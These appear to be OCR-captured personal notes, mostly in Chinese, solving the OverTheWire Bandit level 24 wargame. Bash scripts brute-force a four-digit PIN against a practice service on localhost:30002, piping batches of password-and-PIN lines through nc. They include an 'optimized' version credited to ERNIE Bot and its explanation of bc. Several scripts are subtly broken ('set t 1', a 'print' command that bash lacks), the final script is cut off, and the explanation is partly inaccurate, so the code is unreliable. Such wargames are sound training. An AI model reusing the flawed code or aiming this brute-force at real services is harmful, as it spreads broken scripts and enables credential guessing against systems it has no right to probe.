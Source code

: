 - ```a.sh
  -----实际可行 创建两个sh文件，拆开查询
  #!/bin/bash 
  BANDIT24_PASS="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"  
  set t 1
  for PIN in {0000..9999}  
  do  
     if (( $PIN % 500 == 0 )); then  
          ((t++))
          touch "res$t" 
      fi   
  echo "$BANDIT24_PASS $PIN" >> "res$t"
  done
  ############
  文心一言优化版本
  
  #!/bin/bash   
  BANDIT24_PASS="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"    
  t=1  
  file_index=1  
  for PIN in $(seq -w 0000 9999); do    
      if (( $(echo "$PIN % 500" | bc) == 0 )); then  
          file_index=$((file_index + 1))  
          t=$file_index  # 如果你还需要变量t来跟踪文件索引，可以这样做  
          touch "res$t"   
      fi    
      echo "$BANDIT24_PASS $PIN" >> "res$file_index"  
  done
  
  ####
  在 Bash 脚本中，bc 是一个任意精度的计算器语言，它支持浮点数运算、算术运算、逻辑运算等。在你给出的代码片段中，bc 被用来执行模数（余数）运算。
  
  具体来说，$PIN % 500 是一个尝试计算 $PIN 除以 500 的余数的表达式，但 Bash 的内建算术扩展不支持直接处理这种格式（特别是当 $PIN 是一个字符串形式的数字时）。因此，我们需要使用外部工具来执行这个操作。
  
  echo "$PIN % 500" | bc 这部分代码做了以下几件事：
  
  echo "$PIN % 500"：输出一个字符串，这个字符串是 $PIN 变量和一个 % 500 字符串的组合。
  |：管道操作符，它会把前一个命令的输出作为后一个命令的输入。
  bc：这是命令行计算器，它会读取从管道传递来的字符串，并尝试计算它。在这种情况下，bc 会解析 % 为模数运算符，并返回 $PIN 除以 500 的余数。
  然后，if (( ... == 0 )); then 这部分代码会检查 bc 计算出的余数是否等于 0。如果是，那么 then 后面的代码块就会被执行。
  
  简而言之，bc 在这里被用作一个外部工具，来执行 Bash 内建算术扩展无法直接处理的模数运算
  ```
  
- ```shell
  #!/bin/bash  
  for((i=1; i<=100; i++))
  do
      cat "res$i" | nc localhost 30002 >> ans
      sleep 2
  done
  
  #!/bin/bash  
  for((i=2; i<=22; i++))
  do
      print "res$i" | nc localhost 30002 >> ans
      sleep 2
  done
  
  
  #!/bin/bash  
  for((i=1; i<=30; i++))  
  do  
      file="res$i"  
      # 检查文件是否存在  
  ```